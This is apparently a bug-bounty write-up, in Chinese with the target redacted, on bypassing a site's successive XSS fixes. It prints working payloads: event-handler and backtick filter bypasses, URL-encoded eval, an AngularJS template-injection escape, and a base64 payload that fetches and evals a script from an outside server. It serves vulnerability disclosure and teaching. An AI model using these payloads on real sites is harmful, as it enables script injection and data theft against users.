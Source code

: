 在报告完所有问题后，█████开始部署修复程序，并会通知我。对于 XSS，█████试图对我提交的有效载荷进行修复。但是我还是绕过了他们 3-4 次。我觉得这也值得新人分享😀。让我们把它分成 3 个线程。

## 1.第一个 XSS:

修复了我的第一个报告负载，负载为:

```
1"><div+onload=alert()>XSS-FOREVER</div>
```

使用以下方法绕过了对此问题的修复:

```
1\"><x+onpointerover=alert`xss-bypass`>CLICK+HERE+FOR+DETAILS+OF+ERROR</form></body></html>
```

`<div>`、`onload`、`()`上了黑名单。用`<x>`、`onpointerover`和`alert```旁通。

他们又应用了一个修复，但还是绕过了使用 Chrome 特有的事件处理程序。

```
1\"><x+onpointerrawupdate=alert`xss-bypass`>CLICK+HERE+FOR+DETAILS+OF+ERROR</form></body></html>
```

又有一个修正了这个问题，最终它变得不容易受到攻击了。

## 2.使用 XSS 窃取数据

修复了我的第一个报告负载，负载为:

```
█████.com/?foo='+eval(atob(decodeURIComponent('IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo=')))+'});var foo='{ 1,
```

使用以下方式绕过此问题:

`()`被阻止，fix 被要求确认，使用 URL 编码`(` = > `%28`、`)` = > `%29`和使用反勾```绕过这个。

```
█████.com/?foo='+eval%28atob%28decodeURIComponent%28'IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo='%29%29%29+'}%29;var foo='{ 1,
```

又有一个修正了这个问题，最终它变得不容易受到攻击了。

## 3.一束 XSS

修复了我的第一个报告负载，负载为:

```
https://important.█████.com/█████/█████?...&param1=value1"+ng-value={{a="a".constructor.prototype;a.charAt="".valueOf}}&param2=value2+ng-val={{$evalAsync("x=(_=prompt,_(1))//")}}
```

这个有效载荷已经有很多旁路。当这个被封锁的时候，我设法用```绕过了`()`的封锁(适用于除了***important.█████.com***之外的所有其他重要域)
